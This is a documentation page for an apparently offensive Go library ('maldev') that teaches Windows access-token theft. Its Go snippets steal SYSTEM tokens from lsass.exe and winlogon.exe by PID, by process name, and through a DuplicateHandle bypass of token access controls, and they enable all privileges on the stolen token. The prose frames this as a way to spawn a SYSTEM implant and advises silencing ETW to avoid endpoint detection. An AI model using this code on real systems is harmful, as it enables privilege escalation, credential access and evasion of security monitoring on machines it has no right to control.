



---
---

# Token Stealing

[<- Back to Tokens Overview](README.md)

**MITRE ATT&CK:** [T1134 - Access Token Manipulation](https://attack.mitre.org/techniques/T1134/)
**D3FEND:** [D3-TAAN - Token Authentication and Authorization Normalization](https://d3fend.mitre.org/technique/d3f:TokenAuthenticationandAuthorizationNormalization/)

---

## TL;DR

You're admin (or have `SeDebugPrivilege`) and want to act as
SYSTEM (or as another user). Steal their token, use it to
spawn a process as them.

| You want to… | Use | Result |
|---|---|---|
| Get a SYSTEM token from `winlogon.exe` / `lsass.exe` | [`StealFromProcess`](#stealfromprocess) | Token handle ready for impersonation or process spawn |
| Spawn a process AS that user | [`CreateProcessWithToken`](#createprocesswithtoken) | New process running with the stolen token |
| Just impersonate on the current thread | Pair with [`tokens/impersonation`](impersonation.md) | Per-thread; reverts when done |

What this DOES achieve:

- SYSTEM-level access from any admin starting point. Once
  you have a SYSTEM token + `CreateProcessWithToken`, you can
  spawn an implant that runs as SYSTEM with no UAC prompt.
- Original process unaffected — duplication, not transfer.
- Composes with [`tokens/impersonation`](impersonation.md) for
  per-thread use.

What this does NOT achieve:

- **Needs `SeDebugPrivilege`** — admin token has it disabled
  by default; enable via `process/session.EnableSeDebugPrivilege`
  first. Standard user can't steal high-priv tokens.
- **Loud** — `OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_DUP_HANDLE)`
  on `lsass.exe` is the textbook EDR trigger for credential
  access. Pair with [`evasion/preset.Stealth`](../evasion/preset.md)
  to silence ETW first.
- **Doesn't bypass kernel callbacks** — `PsSetCreateProcessNotify`
  fires when you spawn the new process. EDR sees a
  high-integrity process spawned by your medium-integrity
  one — anomaly.
- **Per-process, not per-domain** — token theft = local
  identity transfer. For domain access, the stolen token
  needs network logon credentials inside it (interactive
  logons usually do; service tokens often don't).

---

## Primer

Every process on Windows runs under a security token that defines who it is and what it can do. A SYSTEM process has a powerful token; a regular user process has a limited one.

**Stealing someone's employee badge to access restricted areas.** Token theft duplicates the security token from a high-privilege process (like `lsass.exe` or `winlogon.exe`) and uses it to create new processes or perform actions with that identity. The original process is unaffected -- you have a copy of its badge.

---

## How It Works

### Token Theft Flow



### Three Theft Methods



### DuplicateHandle Bypass

The `StealViaDuplicateHandle` technique bypasses the token's DACL by duplicating a handle from the remote process's handle table, rather than opening the token directly:



---

## Usage

### Steal by PID

```go
import "github.com/oioio-space/maldev/win/token"

// Steal SYSTEM token from lsass.exe (PID 680)
tok, err := token.Steal(680)
if err != nil {
    log.Fatal(err)
}
defer tok.Close()

// Check the identity
details, _ := tok.UserDetails()
fmt.Println(details.Username) // "SYSTEM"
```

### Steal by Process Name

```go
// Find and steal token from winlogon.exe
tok, err := token.StealByName("winlogon.exe")
if err != nil {
    log.Fatal(err)
}
defer tok.Close()

// Check integrity level
level, _ := tok.IntegrityLevel()
fmt.Println(level) // "System"
```

### Steal via DuplicateHandle

```go
import (
    "golang.org/x/sys/windows"
    "github.com/oioio-space/maldev/win/ntapi"
    "github.com/oioio-space/maldev/win/token"
)

// Open process with PROCESS_DUP_HANDLE
hProcess, _ := windows.OpenProcess(
    windows.PROCESS_DUP_HANDLE, false, targetPID,
)
defer windows.CloseHandle(hProcess)

// Find token handle in remote process via NtQuerySystemInformation
// (remoteTokenHandle discovered via ntapi.FindHandleByType)
var remoteTokenHandle uintptr = 0x1234

tok, err := token.StealViaDuplicateHandle(hProcess, remoteTokenHandle)
if err != nil {
    log.Fatal(err)
}
defer tok.Close()
```

### Token Privilege Management

```go
tok, _ := token.Steal(targetPID)
defer tok.Close()

// Enable all privileges
tok.EnableAllPrivileges()

// Enable specific privilege
tok.EnablePrivilege("SeDebugPrivilege")

// List all privileges
privs, _ := tok.Privileges()
for _, p := range privs {
    fmt.Println(p) // "SeDebugPrivilege: Enabled"
}

// Check integrity level
level, _ := tok.IntegrityLevel()
fmt.Println(level) // "High", "System", etc.
```

---

## Combined Example: Token Theft + Process Creation

```go
package main

import (
    "fmt"

    "github.com/oioio-space/maldev/win/privilege"
    "github.com/oioio-space/maldev/win/token"
)

func main() {
    // Check if we are admin
    isAdmin, isElevated, _ := privilege.IsAdmin()
    fmt.Printf("Admin: %v, Elevated: %v\n", isAdmin, isElevated)

    // Steal SYSTEM token from winlogon.exe
    tok, err := token.StealByName("winlogon.exe")
    if err != nil {
        fmt.Println("Token theft failed:", err)
        return
    }
    defer tok.Close()

    // Enable SeDebugPrivilege on the stolen token
    tok.EnablePrivilege("SeDebugPrivilege")

    // Verify identity
    details, _ := tok.UserDetails()
    fmt.Printf("Stolen identity: %s\\%s\n", details.Domain, details.Username)

    level, _ := tok.IntegrityLevel()
    fmt.Println("Integrity:", level)

    // Use the token to list all privileges
    privs, _ := tok.Privileges()
    for _, p := range privs {
        if p.Enabled {
            fmt.Println("  [+]", p.Name)
        }
    }
}
```

---

## Advantages & Limitations

### Advantages

- **Three theft methods**: Direct PID, by name, and DuplicateHandle bypass cover most scenarios
- **Full privilege management**: Enable, disable, remove individual or all privileges
- **DuplicateHandle bypass**: Circumvents token DACL restrictions on protected processes
- **Token introspection**: UserDetails, IntegrityLevel, Privileges, LinkedToken
- **Detach for lifetime management**: `tok.Detach()` transfers handle ownership to caller

### Limitations

- **SeDebugPrivilege required**: Stealing from SYSTEM processes requires debug privilege
- **Process must be accessible**: Cannot steal from PPL (Protected Process Light) without kernel exploit
- **Token is a copy**: Changes to the stolen token do not affect the original process
- **Detectable**: OpenProcess + OpenProcessToken is logged by ETW and most EDR products
- **Session 0 isolation**: SYSTEM tokens from Session 0 cannot interact with the user desktop

---

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/win/token`](https://pkg.go.dev/github.com/oioio-space/maldev/win/token) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## See also

- [Tokens area README](README.md)
- [`tokens/impersonation.md`](impersonation.md) — consume the stolen handle to run code as the target
- [`tokens/privilege-escalation.md`](privilege-escalation.md) — adjust privileges before / after impersonation
